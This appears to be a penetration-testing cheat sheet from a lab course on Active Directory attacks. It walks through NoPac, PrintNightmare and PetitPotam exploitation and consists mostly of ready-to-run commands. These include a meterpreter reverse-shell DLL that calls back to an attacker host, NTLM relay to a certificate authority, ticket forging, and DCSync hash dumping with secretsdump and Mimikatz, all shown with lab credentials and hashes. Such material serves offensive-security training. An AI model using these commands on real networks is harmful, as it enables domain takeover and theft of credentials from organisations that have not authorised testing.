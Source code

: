 ## Bleeding Edge Vulnerabilities

### NoPac (SamAccountName Spoofing)

|CVEs|Description|
|----|-----------|
|CVE 2021-42278| Bypass vulnerability with the Security Account Manager (SAM).|
|CVE 2021-42287| Vulnerability within the Kerberos Privilege Attribute Certificate (PAC) in ADDS.|

Exploit path takes advantage of being able to change the SamAccountName of a computer account to that of a Domain Controller.

```bash
## Prerequisites
git clone https://github.com/SecureAuthCorp/impacket.git
python setup.py install
git clone https://github.com/Ridter/noPac.git

## Scanning for NoPac Vulnerability
sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap

## Running NoPac Exploit
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap

## Using NoPac to DCSync Built-in Admin Account
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator
```

### PrintNightmare

PrintNightmare is the nickname given to two vulnerabilities (CVE-2021-34527 and CVE-2021-1675) found in the Print Spooler service that runs on all Windows operating systems. 

```bash
## Prerequisites
git clone https://github.com/cube0x0/CVE-2021-1675.git
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 -m pip install .

## Enumerate for MS-RPRN
rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'

## Generate DLL Payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll

## Host payload on SMB share
sudo smbserver.py -smb2support CompData /path/to/backupscript.dll

## Configure meterpreter options & Run exploit
sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
```

### PetitPotam (MS-EFSRPC)

PetitPotam (CVE-2021-36942) is an LSA spoofing vulnerability. The flaw allows an unauthenticated attacker to coerce a Domain Controller to authenticate against another host using NTLM over port 445 via the Local Security Authority Remote Protocol (LSARPC) by abusing Microsoft’s Encrypting File System Remote Protocol (MS-EFSRPC).

This technique allows an unauthenticated attacker to take over a Windows domain where Active Directory Certificate Services (AD CS) is in use. In the attack, an authentication request from the targeted Domain Controller is relayed to the Certificate Authority (CA) host's Web Enrollment page and makes a Certificate Signing Request (CSR) for a new digital certificate. This certificate can then be used with a tool such as Rubeus or gettgtpkinit.py from PKINITtools to request a TGT for the Domain Controller, which can then be used to achieve domain compromise via a DCSync attack.

```bash
## Start ntlmrelay
sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController

## Start PetitPotam
python3 PetitPotam.py 172.16.5.225 172.16.5.5

## Catching Base64 Encoded Cert for DC
sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController

## Request TGT for DC
python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache

## Save TGT for Kerberos authentication attempts
export KRB5CCNAME=dc01.ccache

## Use DC TGT to DCSync
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL

## Verify admin access to DC with CrackMapExec

## Alternative: TGS Request for ourselves
python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$

## Use DC NTLM Hash to DCSync
secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba
```

```powershell
## Request TGT & Perform PTT
## Use base64 encoded certificate
.\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:MIIStQIBAzC...SNIP...IkHS2vJ51Ry4= /ptt

## DCSync with Mimikatz
lsadump::dcsync /user:inlanefreight\krbtgt
```